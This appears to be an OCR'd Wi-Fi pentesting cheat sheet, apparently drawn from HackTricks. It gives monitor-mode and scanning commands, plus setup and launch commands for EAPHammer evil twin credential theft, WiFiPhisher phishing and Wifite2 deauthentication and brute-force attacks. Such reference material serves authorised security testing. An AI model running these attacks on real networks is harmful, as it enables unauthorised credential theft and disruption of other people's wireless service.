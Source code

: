 ```
https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi
```

## basic (wifi) commands
```bash
ip link show #List available interfaces
iwconfig #List available interfaces

airmon-ng check kill #Kill annoying processes

airmon-ng start wlan0 #Monitor mode
airmon-ng stop wlan0mon #Managed mode

airodump-ng wlan0mon #Scan (default 2.4Ghz)
airodump-ng wlan0mon --band a #Scan 5Ghz

iwconfig wlan0 mode monitor #Put in mode monitor
iwconfig wlan0mon mode managed #Quit mode monitor - managed mode

iw dev wlan0 scan | grep "^BSS\|SSID\|WSP\|Authentication\|WPS\|WPA" #Scan available wifis
```

---

## Tools

### EAPHammer
```bash
# Targeted evil twin attacks against WPA2-Enterprise networks
# Indirect wireless pivots using hostile portal attacks.
git clone https://github.com/s0lst1c3/eaphammer.git
# To setup and execute a credential stealing evil twin attack against a WPA/2-EAP network:
	./eaphammer --cert-wizard # generate cert
	./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds # launch attack
```

#### WiFiPhisher
```bash
# It can perform Evil Twin, KARMA, and Known Beacons attacks and then use a phishing template to manage to obtain the network real password or capture social network credentials.

git clone https://github.com/wifiphisher/wifiphisher.git # Download the latest revision
cd wifiphisher # Switch to tool's directory
sudo python setup.py install # Install any dependencies
```

#### Wifite2
```bash
git clone https://github.com/derv82/wifite2.git
cd wifite2
sudo python setup.py install
sudo ./wifite.py
```
-   Set the interface in monitor mode
-   Scan for possible networks - And let you select the victim(s)
-   If WEP - Launch WEP attacks
-   If WPA-PSK
    -   If WPS: Pixie dust attack and the bruteforce attack (be careful the brute-force attack could take a long time). Notice that it doesn't try null PIN or database/generated PINs.
    -   Try to capture the PMKID from the AP to crack it
    -   Try to deauthenticate clients of the AP to capture a handshake
    -   If PMKID or Handshake, try to bruteforce using top5000 passwords.
